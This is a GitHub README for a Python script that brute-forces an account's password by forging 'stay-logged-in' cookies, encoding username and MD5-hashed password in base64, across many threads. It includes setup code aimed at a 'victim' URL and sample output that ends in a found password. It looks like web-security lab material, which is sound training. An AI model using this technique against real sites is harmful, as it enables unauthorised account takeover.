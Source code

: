 # stay-logged-in-cookie-brute-force

The script is designed for brute-forcing the password associated with a given username that uses a stay logged-in cookie which allows you to bypass the entire login process. It utilises a wordlist of potential passwords, creates corresponding cookies using MD5 hashing and base64 encoding it, and sends HTTP requests to check for successful authentication. The script employs multi-threading to speed up the password-checking process and terminates upon finding the correct password.

## Setup

You'll need to have Python 3 installed on your machine to run the script.

You must update the global variable `url` with the victim's URL, and adapt the `Cookie` session and `headers` to your case.

```bash
url = "https://victim.site/my-account?id=carlos"
encoded_cookie = base64.b64encode(f"{username}:{hashed_password}".encode()).decode()
headers = {
    "Cookie": f"stay-logged-in={cookie}",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"
    # Add other headers if necessary
}
```

## Output Example

```python
Authentication failed with password: dragon
Authentication failed with password: 1234
Authentication failed with password: 12345678
Authentication failed with password: 1234567
...
Authentication failed with password: password
...
Successfully authenticated with password: football
Exiting program. Valid password found: football
```
